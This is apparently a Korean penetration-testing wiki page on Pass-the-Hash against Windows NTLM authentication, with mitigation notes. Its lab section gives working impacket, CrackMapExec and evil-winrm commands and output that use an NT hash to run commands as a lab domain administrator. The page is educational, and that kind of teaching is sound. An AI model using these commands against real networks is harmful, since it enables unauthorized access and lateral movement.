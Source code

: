 # Pass-the-Hash

패스 더 해시 (Pass-the-Hash, PtH, PTH) 기법은 윈도우 NTLM 인증을 사용할 때 평문 비밀번호를 사용하지 않고, 그 비밀번호의 NT 해시를 사용해 인증하는 기법을 일컫는다. 패스 더 해시는 평범하게 NTLM 인증을 활용하는 기법 중 하나다. 만들어놓은 프로토콜을 의도한대로 평범하게 사용하는 것이다. [NTLM 인증의 개념은 따로 정리](../general-concepts/windows-authentication/ntlm.md)해놨으니 이 페이지에서는 다이어그램만 가져와서 사용하고, 자세한 설명은 생략한다.

![](../.gitbook/assets/ntlm-local-auth.drawio\(1\).png)

NTLM 인증이 이뤄지는 동안 유저의 평문 비밀번호는 사용되지 않는다. Challenge/Response 에서는 오로지 유저의 NT 해시화된 비밀번호로 암호화된 Challenge 만 서버와 클라이언트가 주고 받을 뿐이다.

공격자의 입장에서도 마찬가지다. LSASS 덤프 (TODO: 페이지 생성 + 링크)를 진행하다 보면 유저의 NT 해시를 얻을 때가 많다. 경우에 따라서 크래킹이 가능한 경우도 있지만, 비밀번호가 복잡하고 길때는 불가능할때도 많다. 하지만 NTLM 인증 프로토콜은 평문 비밀번호가 필요 없는 프로토콜이다. 더 정확하게는 평문 비밀번호를 굳이 알아낼 필요가 없다. NT 해시만 있으면 된다.

패스 더 해시는 원격 코드 실행 및 횡적이동에서 많이 사용된다.

* SMB + PsExec
* WMI
* WinRM
* RDP - 단, Restricted Admin (`HKLM\System\CurrentControlSet\Control\LSA, DisableRestrictedAdmin` 이 0이여야함)

등의 횡적 이동을 할 때 모두 평문 비밀번호 대신 패스 더 해시를 이용할 수 있다.

### 실습

많은 윈도우 + 리눅스 기반의 액티브 디렉토리 툴들은 기본적으로 패스 더 해시를 지원한다.예를 들어 impacket, CrackMapExec, Rubeus, Mimikatz 등이 있지만, 거의 왠만한 툴들은 다 지원한다고 보면 된다.

{% tabs %}
{% tab title="리눅스" %}
impacket 툴들의 경우 `-hashes` 플래그를 사용하며, LM:NT 형식의 해시가 필요하다. CME의 경우 그냥 NT 해시만 줘도 된다.

```
# Impacket 툴들의 "-hashes" 플래그 사용 
impacket-wmiexec domain.com/user@targetFQDN <command> -hashes '<LM:NT>'

impacket-wmiexec choi.local/Administrator@dc01.choi.local whoami -hashes 'aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe' 
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
choi\administrator

# CME 의 -H 플래그 사용 
cme smb <FQDN/IP> -u <user> -H <NThash> -d <domain> 

cme smb 192.168.40.150 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe -d choi.local                                  
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

cme smb 192.168.40.150 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe -d choi.local 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

# WinRM을 이용한 패스 더 해시 
evil-winrm -i <ip> -u <user> -H <NThash> 
```
{% endtab %}

{% tab title="윈도우" %}
TODO
{% endtab %}
{% endtabs %}

### 특이 사항

패스 더 해시 기법의 가장 큰 오해는 바로 이것이 공격(attack)이라는 것이다. 패스 더 해시는 공격도 아니고, 특정 프로토콜을 악용(abuse)하는 것도 아니다. NTLM 인증 프로토콜의 취약점(vulnerability)는 더더욱 아니다. 따라서 내부망 모의해킹을 진행할 때도 이 PTH 를 취약점으로 적어놓는 실수를 하면 안된다.

### 대응 방안

앞서 서술했듯 패스 더 해시는 NTLM을 정상적으로 이용하는 한 방법이기 때문에 막을 방법이 없다. 그나마 AD에서 커버로스나 ADCS를 강제로 이용하게 하는 방법이 있지만, 이는 하위 호환성에 영향을 줄 가능성이 있어 실행하기 어렵다. 패스 더 해시를 막으려는 노력보단 애당초 공격자들이 NT 해시나 다른 계정 정보를 얻을 수 없게끔 보안을 강화하는 것이 추천된다.
